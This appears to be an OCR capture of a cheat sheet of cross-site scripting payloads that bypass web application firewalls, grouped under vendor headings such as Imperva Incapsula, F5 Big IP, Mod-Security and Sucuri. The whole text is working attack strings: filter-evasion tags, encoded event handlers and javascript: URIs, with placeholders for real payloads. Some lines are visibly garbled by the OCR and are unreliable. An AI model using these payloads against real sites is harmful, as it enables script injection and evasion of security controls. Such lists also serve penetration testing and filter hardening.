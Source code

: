     # Recursive filters
    <scr<script>ipt>alert(1)</scr</script>ipt>
    
    # Inject anchor tag
    <a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pt:alert&lpar;1&rpar;">
    
    # Bypass whitespaces
    <svg·onload=alert(1)>
    
    # Change GET to POST request
    
    # Imperva Incapsula
    %3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%25 23x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%25 26%2523x29%3B%22%3E
    <img/src="x"/onerror="[JS-F**K Payload]">
    <iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><img/src=q onerror='new Function`al\\\\ert\\\\`1\\\\``'>
    
    # WebKnight
    <details ontoggle=alert(1)>
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
    
    # F5 Big IP
    <body style="height:1000px" onwheel="[DATA]">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]">
    <body style="height:1000px" onwheel="[JS-F**k Payload]">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[JS-F**k Payload]">
    <body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">
    
    # PHP-IDS
    <svg+onload=+"[DATA]"
    <svg+onload=+"aler%25%37%34(1)"
    
    # Mod-Security
    <a href="j[785 bytes of (&NewLine;&Tab;)]avascript:alert(1);">XSS</a>
    1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
    <b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>
    
    # Sucuri WAF
    1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
    